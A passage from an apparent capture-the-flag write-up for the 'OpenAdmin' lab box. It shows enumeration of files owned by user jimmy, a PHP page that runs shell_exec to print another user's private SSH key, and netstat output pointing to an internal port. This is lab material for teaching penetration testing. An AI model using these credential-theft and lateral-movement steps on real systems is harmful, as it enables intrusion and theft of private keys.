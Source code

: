 
Now as Jimmy we want to find out which files belong to us and since all the interesting stuff seems to be in /var we do
```
find /var -user jimmy 
```

which reveals:
```
/var/www/internal
/var/www/internal/main.php
/var/www/internal/logout.php
/var/www/internal/index.php
```

main.php looked extremly interesting

```php
<?php session_start(); if (!isset ($_SESSION['username'])) { header("Location: /index.php"); }; 
# Open Admin Trusted
# OpenAdmin
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
echo "<pre>$output</pre>";
?>
<html>
<h3>Don't forget your "ninja" password</h3>
Click here to logout <a href="logout.php" tite = "Logout">Session
</html>
```

This file is trying to output joanna's ssh key, which we would obviously be interested in.
running it with a simple "php main.php" we just get a permission denied tho. 
I then tried to access these files via the browser but could not find them on 10.10.10.171/main.php
neither 10.10.10.171/internal/main.php, which after a while got me thinking that they might be runnig on a different port

```
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name             
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:52846         0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           - 
```
